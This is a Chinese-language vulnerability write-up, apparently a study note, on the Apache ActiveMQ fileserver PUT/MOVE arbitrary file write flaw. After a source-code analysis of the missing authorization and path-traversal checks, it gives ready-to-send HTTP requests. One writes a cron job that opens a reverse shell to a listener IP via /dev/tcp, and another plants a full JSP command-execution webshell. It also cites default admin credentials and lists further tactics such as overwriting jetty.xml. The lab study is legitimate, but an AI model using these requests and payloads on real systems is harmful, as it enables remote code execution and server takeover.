







# 一、漏洞分析
首先看WEB-INF:

```xml
  <filter>
   <filter-name>RestFilter</filter-name>
   <filter-class>org.apache.activemq.util.RestFilter</filter-class>
  </filter>

  <filter>
   <filter-name>FilenameGuardFilter</filter-name>
   <filter-class>org.apache.activemq.util.FilenameGuardFilter</filter-class>
  </filter>

  <filter-mapping>
   <filter-name>FilenameGuardFilter</filter-name>
   <url-pattern>/*</url-pattern>
  </filter-mapping>  

  <filter-mapping>
   <filter-name>RestFilter</filter-name>
   <url-pattern>/*</url-pattern>
  </filter-mapping>  
```

这里说明了要经过`FilenameGuardFilter`和`RestFilter`两个过滤器，首先查看`FilenameGuardFilter`：

```java
    private static class GuardedHttpServletRequest extends HttpServletRequestWrapper {

        public GuardedHttpServletRequest(HttpServletRequest httpRequest) {
            super(httpRequest);
        }

        private String guard(String filename) {
            String guarded = filename.replace(":", "_");
            guarded = FileSystems.getDefault().getPath(guarded).normalize().toString();
            if (LOG.isDebugEnabled()) {
                LOG.debug("guarded " + filename + " to " + guarded);
            }
            return guarded;
        }

        @Override
        public String getParameter(String name) {
            if (name.equals("Destination")) {
                return guard(super.getParameter(name));
            } else {
                return super.getParameter(name);
            }
        }

        @Override
        public String getPathInfo() {
            return guard(super.getPathInfo());
        }

        @Override
        public String getPathTranslated() {
            return guard(super.getPathTranslated());
        }

        @Override
        public String getRequestURI() {
            return guard(super.getRequestURI());
        }
    }
```

其对`HttpServletRequestWrapper`进行了包装，以防止路径穿越:
```
主要做了这几件事：

把 : 替换成 _
用 Path.normalize() 规范化路径（如消掉 .、.. 片段）
包装 HttpServletRequest，拦截并改写：
getPathInfo()
getPathTranslated()
getRequestURI()
getParameter("Destination")
```

其次再看`RestFilter`：
```java
    public void init(FilterConfig filterConfig) throws UnavailableException {
        this.filterConfig = filterConfig;
        readPermissionRole = filterConfig.getInitParameter("read-permission-role");
        writePermissionRole = filterConfig.getInitParameter("write-permission-role");
    }
```
```java
    protected void doMove(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        if (LOG.isDebugEnabled()) {
            LOG.debug("RESTful file access: MOVE request for " + request.getRequestURI());
        }

        if (writePermissionRole != null && !request.isUserInRole(writePermissionRole)) {
            response.sendError(HttpURLConnection.HTTP_FORBIDDEN);
            return;
        }

        File file = locateFile(request);
        String destination = request.getHeader(HTTP_HEADER_DESTINATION);

        if (destination == null) {
            response.sendError(HttpURLConnection.HTTP_BAD_REQUEST, "Destination header not found");
            return;
        }

        try {
            URL destinationUrl = new URL(destination);
            IOHelper.copyFile(file, new File(destinationUrl.getFile()));
            IOHelper.deleteFile(file);
        } catch (IOException e) {
            response.sendError(HttpURLConnection.HTTP_INTERNAL_ERROR); // file
                                                                        // could
                                                                        // not
                                                                        // be
                                                                        // moved
            return;
        }

        response.setStatus(HttpURLConnection.HTTP_NO_CONTENT); // we return no
                                                                // content
    }
```

问题1：**默认配置不做读写鉴权**


```java
这里的初始化配置是由 Servlet 容器（Jetty）在创建 RestFilter 时传入的 FilterConfig 提供的。
init() 里调用的 filterConfig.getInitParameter(...) 只会读取该 Filter 在 web.xml 里的 <init-param>。

相关位置：

init() 读取参数：
RestFilter.java:65-69
RestFilter 在 web.xml 的定义：
web.xml:25-28
当前这个 web.xml 里 RestFilter 没有配置 <init-param>，所以：

readPermissionRole == null
writePermissionRole == null
也就是默认不按角色做读写鉴权（代码里是“参数非空才校验角色”）。
```
问题2：
在MOVE方法中，获取目标地址使用的是`String destination = request.getHeader(HTTP_HEADER_DESTINATION);`，而不是`FilenameGuardFilter`包装过的`getParameter("Destination")`，所以MOVE存在路径穿越。

综合以上两个问题，出现了任意文件上传漏洞。

# 二、漏洞复现
## 方式一：写入crontab，自动化弹shell

Crontab 是 Linux 系统中用于设置周期性执行指令的命令。它允许用户在特定时间或间隔执行程序，类似于用户的时程表。Crontab 的任务调度主要分为系统执行的工作和个人执行的工作。

**这种方法需要Activemq是以root权限运行的。**

```
PUT /fileserver/1.txt HTTP/1.1
Host: 192.168.240.130:8161
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
If-Modified-Since: Fri, 13 Feb 2015 18:05:11 GMT
Connection: close
Content-Length:83

*/1 * * * * root /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.240.131/2333 0>&1"

```
注意最后的换行符为\n,如图



```
MOVE /fileserver/1.txt HTTP/1.1
Destination:file:///etc/cron.d/root
Host: 192.168.240.130:8161
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
If-Modified-Since: Fri, 13 Feb 2015 18:05:11 GMT
Connection: close
Content-Length:0


```



在kali上监听，获得shell：



## 方式二：写入Webshell

将webshell写入到admin或api应用中，但是访问这两个应用需要身份验证。

默认的ActiveMQ账号密码均为`admin`，首先访问`http://192.168.240.130:8161/admin/test/systemProperties.jsp`，查看ActiveMQ的绝对路径：



```
PUT /fileserver/2.txt HTTP/1.1
Host: 192.168.240.130:8161
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
If-Modified-Since: Fri, 13 Feb 2015 18:05:11 GMT
Connection: close
Content-Length:860

<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>

```



```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0

```




访问http://192.168.240.130:8161/api/s.jsp




## 补充
文件写入有几种利用方法：

1. 写入webshell
2. 写入cron或ssh key等文件
3. 写入jar或jetty.xml等库和配置文件

写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门），写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。

理论上我们可以覆盖jetty.xml，将admin和api的登录限制去掉，然后再写入webshell。

有的情况下，jetty.xml和jar的所有人是web容器的用户，所以相比起来，写入crontab成功率更高一点。

尚未测试。

# 三、总结
1. 了解了文件上传漏洞的基本原理和基本利用方法。
2. 了解了Webshell的一般使用。

2026/4/9-22:39
